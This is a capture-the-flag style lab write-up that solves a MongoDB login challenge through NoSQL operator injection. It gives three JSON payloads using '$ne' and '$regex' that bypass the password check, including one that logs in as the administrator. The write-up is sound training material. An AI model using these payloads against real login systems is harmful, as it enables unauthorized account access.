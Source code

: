 # Exploiting NoSQL operator injection to bypass authentication
# Objective
The login functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection using MongoDB operators.\
\
To solve the lab, log into the application as the `administrator` user.\
\
You can log in to your own account using the following credentials: `wiener:peter`.

# Solution
## Analysis
The following payload causes a internal server error:

```json
{"username":{"$ne":"invalidusername"},"password":{"$ne":"invalidpassword"}}
```

|![](Images/image-8.png)|
|:--:| 
| *Payload worked - all users were queried* |

Using the test credentials `wiener:peter` it is possible to login without password:

```json
{"username":"wiener","password":{"$ne":"invalidpassword"}}
```
|![](Images/image-10.png)|
|:--:| 
| *Login without password* |


## NoSQL injection
The username for `admin` user consisted of word "admin" and random characters.

```json
{"username":{"$regex":"admin.*"},"password":{"$ne":"invalidpassword"}}
```
|![](Images/image-10.png)|
|:--:| 
| *Bypass authentication* |